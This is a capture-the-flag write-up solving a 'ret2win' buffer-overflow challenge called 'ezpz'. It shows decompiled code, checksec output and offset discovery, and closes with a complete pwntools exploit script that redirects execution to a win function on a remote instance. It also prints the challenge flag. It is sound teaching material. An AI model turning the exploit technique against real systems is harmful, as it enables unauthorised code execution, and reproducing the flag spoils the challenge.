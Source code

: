 # Easy Peasy

## Description

> A super secret piece of information has been hidden behind a program made by 1337 hackers.
> Find this crucial piece of information
>
> Author: Anand Rajaram
>
> [`ezpz`](./ezpz)

Tags: _binary_ \
Difficulty: _easy_ \
Points: _100_

## Solution

When executing the binary, the user is asked to insert a password

```
$ ./ezpz
Please enter the super secret password to display the flag:
password1234
Invalid password, try again
```

If we insert a large text, it throws a `Segmentation fault`, which means it is vulnerable to `buffer overflow` attacks.

```
$ ./ezpz
Please enter the super secret password to display the flag:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault

```

We can confirm that by opening the binary with a disassembler like `ghidra` in which we can see three important functions; `main`, `vuln`, and `win`

```c
undefined8 main(void)

{
  puts("Please enter the super secret password to display the flag:");
  fflush((FILE *)stdout);
  vuln();
  puts("Invalid password, try again\n");
  return 0;
}
```

```c
void vuln(void)

{
  char local_28 [32];

  gets(local_28);
  return;
}
```

```c
void win(void)

{
  char local_58 [72];
  FILE *local_10;

  local_10 = fopen64("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    printf("%s %s","Please create \'flag.txt\' in this directory with your","own debugging flag.\n")
    ;
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_58,0x40,local_10);
  printf(local_58);
  return;
}
```

By watching this code we know that this is a classic `ret2win` challenge, where we have to overwrite the return address with a `buffer overflow` to execute the `win` function and get the flag.

It is also important to check the security posture of the binary by executing the command `checksec` to see what kind of vulnerabilities we can exploit.

```shell
$ checksec ezpz
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

According to the output of `checksec`, the security of this binary appears to be weak. While the binary likely contains a `canary`, it's worth noting that the canary protection isn't present in the `vuln` function, which is the specific function we intend to exploit. This indicates that the initial conditions for the exploit are favorable.

The following steps are the recipe for solving `ret2win` challenges:

1. Determine the offset between the start of the user input and the return address in the stack.
2. Fill the stack with random data until it reaches the return address.
3. Overwrite the return address with a `ret` gadget. This gadget redirects the flow of execution to the address of the next function we specify after the gadget, creating a [`ROP chain`](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming). This step helps avoid potential stack alignment issues.
4. Incorporate the address of the `win` function into the payload.

To find the offset, I usually use `cyclic`, which is available in the `pwndbg` plug-in of the `GDB` debugger.

```
$ gdb ezpz
...
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> run
```

Copy the 100-character string, then paste it when the program prompts for the password. It should crash trying to go to the specific memory address in `ret` (return address) `0x6161616161616166`. Use `cyclic -l <ret_addr>` again to get the exact offset where we will start overwriting the return address.

```
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

I will use the Python library `pwntools` to execute the following steps. Note that the exploit is encapsulated inside the _"EXPLOIT GOES HERE"_ section. The remaining code serves as a template, where you should only change the remote connection parameters with the actual values of your instance.

```Python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("ezpz")

# Defining the GDB script that will be used when running the
# binary
gs = '''
continue
'''

# Launch the binary with GDB, without GDB or REMOTE based on
# the command-line arguments
def start():
    if args.REMOTE:
        return remote("3.110.66.92", 31636)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

#============================================================
#                    EXPLOIT GOES HERE
#============================================================

# Find a ret gadget
ret = asm('ret')
ret = next(elf.search(ret))

# ret address is a padding to avoid stack alignment issues and
# the main function allows the program to print the flag remotely
payload = b"A"*40 + p64(ret) + p64(elf.sym.win) + p64(elf.sym.main)

# Send the payload
io.sendline(payload)

#============================================================

# Interact with the process
io.interactive()
```

In my script I added the `main` function at the end of the payload because it didn't work remotely without it. I am not pretty sure the reason for this behavior, but I guess it happens because the `win` function does not return properly, causing the process to finish before it can print the flag. When we add the `main` function to the payload, the execution proceeds as expected, resulting in the successful printing of the flag.

Flag `dsc{tH15_N3W_Fl4G_15_aW350M3!}`
